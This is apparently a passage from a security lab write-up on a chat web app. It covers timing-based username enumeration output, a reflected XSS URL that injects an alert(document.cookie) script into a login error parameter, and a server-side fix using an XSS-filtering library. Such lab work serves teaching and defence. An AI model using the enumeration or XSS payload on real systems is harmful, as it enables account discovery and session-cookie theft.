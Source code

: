 output:
```
Username: michelle.obama, Response Time: 3082.21 ms
Username: barack.obama, Response Time: 71.27 ms
Username: hillary.clinton, Response Time: 3138.18 ms
Username: george.w.bush, Response Time: 3077.21 ms
Username: jane.doe, Response Time: 82.53 ms
Username: sam.altman, Response Time: 3078.97 ms
Username: mira.murati, Response Time: 80.00 ms
Username: olivier.lemer, Response Time: 80.96 ms
```



People having an account:

* michelle.obama
* hillary.clinton
* george.w.bush
* sam.altman



## Additional exploit

Link to ChatsApp which, when clicked, executes alert(document.cookie) in the browser, whether or not you are currently connected.

http://185.143.102.102:8080/login?error=%3Cscript%3Ealert(document.cookie);%3C/script%3E


## Vulnerability corrections

### Flags 1, 2 and 3 - Preventig XSS

To correct the XSS vulnerabilities, I initially used client-side sanitation, however, client-side measures are insufficient due to their bypassable nature by attackers. So I implemented server-side input sanitation using the `xss` library to ensure that all messages are filtered before being saved or displayed. This measure prevents malicious scripts from being executed when data is rendered on the client side.

````javascript
// server.js line 178

// Posting a message
app.post("/conversation/:conversationId", isLoggedIn, async (req, res) => {
    let user = req.user
    let mainConversation = req.conversation
    let message = xss.filterXSS(req.body.message);

    const other = await mainConversation.getOtherUser(user)

    if (message.length == 0) {
        res.status(403).json(emptyMessageError(user, other))

        return
    }

    // Wait for a second, to avoid spamming if they manage to create a loop.
    await new Promise(resolve => setTimeout(resolve, 500));

    await mainConversation.addMessage(user.id, message);

    emitter.emit("message::" + user.id, [{ conversationId: mainConversation.id, fromMe: true, message }]);
    emitter.emit("message::" + other.id, [{ conversationId: mainConversation.id, fromMe: false, message }]);

````